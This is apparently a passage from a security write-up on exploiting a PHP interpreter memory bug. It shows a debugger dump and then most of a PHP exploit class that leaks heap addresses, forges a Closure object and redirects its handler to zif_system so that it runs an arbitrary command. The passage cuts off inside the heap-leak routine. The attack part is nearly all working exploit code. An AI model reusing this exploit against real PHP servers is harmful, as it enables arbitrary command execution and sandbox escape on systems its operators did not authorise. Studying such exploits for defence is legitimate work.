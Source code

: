 ```c
      reserved = {0x7ffff3e72140, 0x7ffff3e03630, 0x7ffff3e5ce90, 0x0, 0x7ffff3e8d018, 0x7ffff3e8d010}
    }
...
```

Chaining all together the exploit is:

```php
<?php

class Helper { public $a, $b, $c, $d; } 

class exploit {
    public function __construct($cmd) {
        $concat_result_addr = $this->leak_heap();
        print "[+] Concated string address:\n0x";
        print dechex($concat_result_addr);
        $this->placeholder = $this->alloc(0x4F, "B");
        $placeholder_addr = $concat_result_addr+0xe0;
        print "\n[+] Placeholder string address:"; 
        print "\n0x".dechex($placeholder_addr);
        $this->free($placeholder_addr);
        $this->helper = new Helper;
        $this->helper->a = "KKKK";
        $this->helper->b = function ($x) { };
        print "\n[+] std_object_handlers:\n";
        $std_object_handlers = $this->str2ptr($this->placeholder);
        print "0x" . dechex($std_object_handlers) . "\n";
        $closure_addr = $this->str2ptr($this->placeholder, 0x20);
        print "[+] Closure:\n";
        print "0x" . dechex($closure_addr) . "\n";
       
        $basic = $this->get_basic_funcs($std_object_handlers);
        print "[+] basic_funcs:\n";
        print "0x" . dechex($basic) . "\n";
        $system = $this->get_system($basic);
        print "[+] zif_system:\n";
        print "0x" . dechex($system);

        $fake_obj_offset = 0xd8;
        for ($i = 0; $i < 0x110; $i += 8) {
            $this->write($this->placeholder, $fake_obj_offset + $i, $this->leak($closure_addr-0x10+$i));
        }
        $fake_obj_addr = $placeholder_addr +  $fake_obj_offset + 0x18;
        print "\n[+] Fake Closure addr:\n0x" . dechex($fake_obj_addr) . "\n\n";
        $this->write($this->placeholder, 0x20, $fake_obj_addr);
        $this->write($this->placeholder, $fake_obj_offset + 0x38, 1, 4); # internal func type
        $this->write($this->placeholder, $fake_obj_offset + 0x68, $system); # internal func handler
        
        ($this->helper->b)($cmd);
    }

    private function leak_heap() {
		$contiguous = [];
     		for ($i = 0; $i < 10; $i++) {
				$contiguous[] = $this->alloc(0x100, "D");
     		}
        $arr = [[1,3,3,7], [5,5,5,5]];
        set_error_handler(function() use (&$arr, &$buf) {
            $arr = 1337;
            $buf = str_repeat("\x00", 0x100);
        });
```